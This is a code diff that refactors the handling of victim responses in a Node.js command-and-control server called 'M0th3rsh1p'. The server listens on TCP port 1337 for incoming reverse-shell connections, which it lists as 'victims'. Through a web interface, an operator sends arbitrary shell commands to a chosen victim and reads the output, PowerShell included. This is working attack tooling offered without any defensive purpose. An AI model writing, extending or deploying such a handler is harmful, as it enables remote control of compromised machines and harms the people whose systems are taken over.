

Reffactored receiving responses process

Changed region(s): [[0.093, 0.2148, 0.8991, 0.9821], [0.372, 0.1228, 0.6201, 0.2148], [0.372, 0.0307, 0.6201, 0.0921]]

diff --git a/index.js b/index.js
@@ -16,11 +16,18 @@ nunjucks.configure('views', {
 var tcpPort = 1337;
 var victims = [];
 var commandLine = '';
+var previousCommandLine = '';
+var timesReloadedSuccesfully = 0;
 
 // Function passed as parameter is executed for every new connection
 net.createServer(function(sock) {
     console.log('%s Victim %s connected', date.format(), sock.remoteAddress );
 
+    // Event listener for receiving data
+    sock.on('data', function(data){
+        commandLine += data;
+        console.log('%s Victim %s responded:\n%s', date.format(), sock.remoteAddress, data);
+    })
     // Event listeners for end of connection
     sock.on('close', function() {
         victims.splice(victims.indexOf(sock), 1);
@@ -31,38 +38,23 @@ net.createServer(function(sock) {
         console.log('%s Victim %s disconnected because of error: %s', date.format(), remoteAddress, err.message);  
     });
 
-    // Event listener for initial messages in case there is one
-    sock.on('data', function(data){
-        console.log('%s Victim sent first message %s', date.format(), data);
-    });
-
-    victims.push({socket: sock, initialized: false});
+    victims.push(sock);
 }).listen(tcpPort, '0.0.0.0');
 
-// Remove possible event listener for receiving first messages
-function initializeCommandLine(victim){
-    commandLine = '';
-    victim.socket.removeAllListeners('data');
-    victim.initialized = true;
-}
-
-// Wrapper for waiting asynchronously
-function waitForResponse(socket) {
+// Wrapper for waiting for the first response
+function waitForResponse(sock) {
     return new Promise((resolve) => {           // Promise to resolve in the future
-        socket.once('data', function(data) {    // Note that we register the event listener once, otherwise, it would apply every time there is a response
-            commandLine += data + '\n';
-            console.log('%s Victim %s responded:\n%s', date.format(), socket.remoteAddress, data);
+        sock.once('data', function(data) {
             resolve(true);
         });
-        socket.once('close', function() {
+        sock.once('close', function() {
             resolve(false);
         });
-        socket.once('error', function (err) {
+        sock.once('error', function (err) {
             resolve(false);
         });
     });
 }
-
 
 /******************* Web application server ********************/
 
@@ -71,15 +63,16 @@ app.get('/', function (req, res) {
         res.render('index.html');
     }
     else{
+        commandLine = '';
         res.render('hub.html', { victims });
     }
 })
 
 app.get('/:ip', function (req, res) {
-    let i = 0, found = false, victim;
+    let i = 0, found = false, end = false, victim;
 
     while (i < victims.length && !found){
-        if (victims[i].socket.remoteAddress === req.params.ip){
+        if (victims[i].remoteAddress === req.params.ip){
             victim = victims[i];
             found = false;
         }
@@ -89,8 +82,21 @@ app.get('/:ip', function (req, res) {
         res.redirect(303, '/');
     }
     else{
-        initializeCommandLine(victim);
-        res.render('victim.html', { victim, commandLine });
+        // If there is nothing new to display on commandLine, increment timesReloaldedSuccesfully, 
+        // else, reset the counter and reload the page (end = false). When the commandLine hasn't 
+        // been changed 5 times, stop reloading the page (end = true)
+        // This is done to get the most responses when shell splits one response in many ones (ie. PowerShell)
+        if (previousCommandLine == commandLine){
+            timesReloadedSuccesfully++;
+        }
+        else{
+            timesReloadedSuccesfully = 0;
+            previousCommandLine = commandLine;
+        }
+        if (timesReloadedSuccesfully > 5){
+            end = true;
+        }
+        res.render('victim.html', { victim, commandLine, end});
     }
 })
 
@@ -98,27 +104,22 @@ app.post('/:ip', function (req, res) {
     let i = 0, found = false, victim;
 
     while (i < victims.length && !found){
-        if (victims[i].socket.remoteAddress === req.params.ip){
+        if (victims[i].remoteAddress === req.params.ip){
             victim = victims[i];
             found = false;
         }
         i++;
     }
-    if (!victim || !victim.initialized){
+    if (!victim){
         res.redirect(303, '/');
     }
     else{
-        victim.socket.write(req.body.command + "\n");
-        commandLine += " > " + req.body.command + "\n";
+        timesReloadedSuccesfully = 0;
+        previousCommandLine = '';
+        victim.write(req.body.command + "\n");
         console.log("%s User sent command: %s", date.format(), req.body.command);
-        waitForResponse(victim.socket).then(successful => { // If victim really responds or if it closes the socket
-            if (successful){
-                res.render('victim.html', { victim, commandLine});
-            }
-            else{
-                res.redirect(303, '/');
-            }
-        });
+        waitForResponse(victim);
+        res.render('victim.html', { victim, commandLine, end: false});
     }
 })
 
@@ -126,8 +127,8 @@ app.post('/:ip/disconnect', function(req, res){
     let i = 0, found = false;
 
     while (i < victims.length && !found){
-        if (victims[i].socket.remoteAddress === req.params.ip){
-            victims[i].socket.destroy();
+        if (victims[i].remoteAddress === req.params.ip){
+            victims[i].destroy();
             found = true;
             console.log("%s Connection ended", date.format());
         }

diff --git a/views/victim.html b/views/victim.html
@@ -39,9 +39,11 @@
     </head>
     <body>
         <h1>M0th3rsh1p</h1>
-        <p>Victim's IP: {{ victim.socket.remoteAddress }}</p>
-        <button class="button" onclick="location.pathname = '/'">Go back</button>
-        <form class="button" action="/{{ victim.socket.remoteAddress }}/disconnect" method="POST">
+        <p>Victim's IP: {{ victim.remoteAddress }}</p>
+        <form class="button" action="/" method="GET">
+            <input type="submit" value="Go back" />
+        </form>
+        <form class="button" action="/{{ victim.remoteAddress }}/disconnect" method="POST">
             <input type="submit" value="Disconnect" />
         </form>
         <div id="commandline">
@@ -51,4 +53,13 @@
             <input type="text" name="command" id="input" class="code" autofocus>
         </form>
     </body>
+    <script>
+        // If end parameter is false, reload page using GET request for more content
+        var end = {{ end }};
+
+        if (!end ){
+            var loc = window.location;
+            window.location = loc.protocol + '//' + loc.host + loc.pathname + loc.search;
+        }
+    </script>
 </html>

diff --git a/views/hub.html b/views/hub.html
@@ -23,7 +23,7 @@
         <p>Victims:</p>
         <ul id="list">
             {% for victim in victims %}
-              <li class="listElement"><a href="{{ victim.socket.remoteAddress }}">{{ victim.socket.remoteAddress }}</a></li>
+              <li class="listElement"><a href="{{ victim.remoteAddress }}">{{ victim.remoteAddress }}</a></li>
             {% endfor %}
         </ul>
     </body>

diff --git a/views/index.html b/views/index.html
@@ -18,7 +18,7 @@
     <script>
         setTimeout(reload, 3000);
         function reload(){
-            location.reload();
+            location.reload(true);
         }
     </script>
 </html>
